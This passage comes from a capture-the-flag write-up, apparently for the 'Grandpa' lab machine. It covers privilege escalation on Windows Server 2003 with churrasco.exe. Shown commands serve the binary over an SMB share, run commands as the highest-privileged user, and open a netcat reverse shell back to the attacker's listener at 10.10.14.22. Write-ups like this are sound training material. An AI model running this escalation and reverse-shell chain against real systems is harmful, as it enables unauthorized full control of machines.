 Fortunately with a little research I find a very interesting article to **[Escalate privileges using Juicy Potato on a Windows Server 2003](https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/){:target="_blank"}** and in it there is another article that explains the **[use of `churrasco.exe` that allows to escalate privileges](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/){:target="_blank"}**. So the next thing I do is to download the binary shared in the publication to transfer it to the **Grandpa** machine, when I run it it works correctly. I can execute commands impersonating the user with maximum privileges, so I just need to transfer `nc.exe` to the machine and send a **Reverse Shell** to my machine, after several attempts I get it and I can access the last flag, machine completed.

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/churrasco.exe .
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy \\10.10.14.22\smbFolder\churrasco.exe .\churrasco.exe
.\churrasco.exe -d "whoami"
# :)
```

> **Attacker Machine**:

```bash
locate nc.exe | grep -v Documents
cp /usr/share/windows-resources/binaries/nc.exe ./nc.exe
impacket-smbserver smbFolder $(pwd) -smb2support
rlwrap -cAr nc -nlvp 443
```

> **Victime Machine**:

```cmd
.\churrasco.exe -d "\\10.10.14.22\smbFolder\nc.exe -e cmd 10.10.14.22 443"
# Try several times :)

cd C:\DOCUME~1
dir /s user.txt
dir /s root.txt
```

<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
